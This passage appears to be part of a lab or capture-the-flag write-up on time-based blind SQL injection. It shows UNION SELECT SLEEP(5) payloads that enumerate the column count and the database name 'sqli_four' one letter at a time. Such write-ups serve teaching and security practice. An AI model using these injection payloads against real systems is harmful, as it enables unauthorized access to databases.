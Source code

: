 As there was no response the query was unsuccesful and therefore as usual, I add a column to attempt to enumerate with the following statement.

`admin123' UNION SELECT SLEEP(5),2;--`

The above statement results in a succesful query with a 5 second response time.

![](Screenshots/time_based_5second_time.png)

Now that I have identified 2 columns I can repeat the enumeration process as it was done above with Boolean-Based SQL.

I enter the query:

`referrer=admin123' UNION SELECT SLEEP(5), 2 where database() like 'u%';--`

Cycling through the letters reveals a database called `sqli_four` with the following:

`referrer=admin123' UNION SELECT SLEEP(5), 2 where database() like 'sqli_four%`

![](Screenshots/time_based_Sql_four.png)
